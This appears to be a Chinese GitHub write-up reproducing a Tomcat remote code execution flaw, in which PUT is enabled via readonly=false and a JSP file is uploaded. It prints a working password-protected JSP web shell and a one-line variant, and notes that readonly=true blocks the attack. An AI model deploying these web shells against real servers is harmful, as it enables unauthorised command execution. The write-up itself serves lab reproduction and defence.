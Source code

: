 # TOMCAT RCE 1
TomcatRCE漏洞复现
## 1、       介绍：
## 2、       环境搭建：
### 1、       下载问题版本tomcat，地址：`https://archive.apache.org/dist/tomcat/`
### 2、       在windows上安装tomcat<br>
![image]()t.1<br>
### 3、       设置readonly配置（配置文件路径为conf/web.xml），该配置禁止（false）时将开启put方法，默认是true。<br>
t.2<br>
查看目前支持的方法：<br>
t.3<br>
在servlet中添加：readonly属性为false<br>
t.4<br>
使用burpsuite抓包：（采用put方法，设置成功）<br>
t.5<br>
环境搭建完毕。
## 3、       漏洞复现：
准备payload:
先准备jsp文件：
```jsp
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp
 
+"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("123456".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println("ok");}%>
```
将该段代码复制到burpsuite表单位置：<br>
t.6<br>
浏览器链接jsp：<br>
t.7<br>
表示上传成功；
执行命令：<br>
t.8<br>
证明命令执行成功。
也可以使用简单的payload：
```<%Runtime.getRuntime().exec(request.getParameter("cmd"));%>```<br>
t.9<br>
将readonly策略开启（设置为true）：<br>
t.10<br>
则不成功。


